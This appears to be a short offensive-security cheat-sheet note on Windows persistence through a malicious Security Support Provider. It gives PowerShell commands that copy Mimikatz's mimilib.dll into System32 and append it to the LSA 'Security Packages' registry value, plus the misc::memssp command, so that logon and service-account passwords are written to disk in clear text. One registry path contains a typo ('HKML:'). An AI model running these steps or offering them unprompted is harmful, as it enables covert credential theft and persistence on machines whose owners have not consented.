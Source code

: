 #mimikatz #powershell 
[GSS-API](Authentication#GSS-API)
- Injecting our own SSP for programs to use.
- Mimikatz has it's own `mimilib.dll` SSP. This SSP logs local logons, service account and machine account password in clear text on the target server.
- `mimilib.dll` should be present in the system32 directory on the target system, and add mimilib to the `HKLM\SYSTEM\CurrentControlSet\Control\LSA\Security Packages`
```powershell
# move mimilib to system32
Move-Item mimilib.dll C:\Windows\System32

# Get Current value of "Security Packages"
$packages = Get-ItemProperty "HKML:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages';

# append mimilib to packages variable
$packages += "mimilib"

# Reset the registry key
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages
# Reboot
# After reboot all logons are logged to C:\Windows\System32\[kiwissp.log|mimilsa.log]

# Mimikatz can be used to load mimilib in lsass
misc::memssp
```

